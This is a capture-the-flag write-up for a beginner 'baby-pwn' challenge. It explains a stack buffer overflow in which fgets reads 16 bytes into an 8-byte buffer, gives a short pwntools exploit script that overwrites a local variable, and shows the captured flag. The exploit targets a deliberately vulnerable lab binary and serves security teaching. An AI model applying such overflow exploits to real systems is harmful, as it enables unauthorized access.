 # baby-pwn-0.25 
> Write-up author: vreshco
## DESCRIPTION:
Kamu tau gak kalau buffer overflow bisa merubah nilai local variable?

koneksikan menggunakan:
## HINT:
- NONE
## STEPS:
1. First, download the file given, then check the file type.

> RESULT - 64 BIT binary file, not stripped.

![image](https://user-images.githubusercontent.com/70703371/213629876-7d4832a5-208a-4b48-b3b7-a73f834d8973.png)


2. Now check the binary's protection.

> RESULT - No Canary Found - Partial RELRO (hence we could do bufferoverflow and overwrite the got address).

![image](https://user-images.githubusercontent.com/70703371/213629958-53164253-0fb1-42e5-84a2-3b46b2c1a468.png)


3. But let's straight to decompile the binary to see it's flow.
4. The `vuln()` function is called at the `main()`. Let's check that.

![image](https://user-images.githubusercontent.com/70703371/213630456-9095f353-a907-42a4-84fc-c16d30e1dbd4.png)


5. Based from it, we need to overwrite the `local_c` value to 1. To did that we need to know the **RIP** offset hence can overwrite the **RBP** values then we can change the `local_c` value.
6. The vuln here is the `local_14` variable accept only 8 bytes, but the `fgets` function wants it to accepts 16 bytes. Hence we can utilize this to do bufferoverflow.
7. After overflow the buffer we since we need to change the value of variable `local_c` to 1, then we need to add `0x1` at the end of our payload or padding bytes.
8. To solve this challenge i used pwntools.

> THE SCRIPT

```py
from pwn import *
import os

os.system('clear')

def start(argv=[], *a, **kw):
    if args.REMOTE:  
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  
        return process([exe] + argv, *a, **kw)


exe = './chall'
elf = context.binary = ELF(exe, checksec=False)
context.log_level = 'debug'

sh = start()
sh.recvuntil(b'\n')
offset = b'A' * 8
p = flat([
    offset,
    1
])
#offset += p64(1)
sh.sendline(p)
sh.interactive()
```

> OUTPUT

![image](https://user-images.githubusercontent.com/70703371/213631284-b046b20e-b107-4b2a-852b-23a3ad6a3a74.png)


9. As we can see, when i tried to run it locally, we successfuly change the value of `local_c` to 1.
10. Now let's test it remotely.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/213631522-483fde41-4115-4399-8c2a-ed910321fbd3.png)


11. Got the flag!

## FLAG

```
TCP1P{change_local_variable_value_using_buffer_overflow}
```









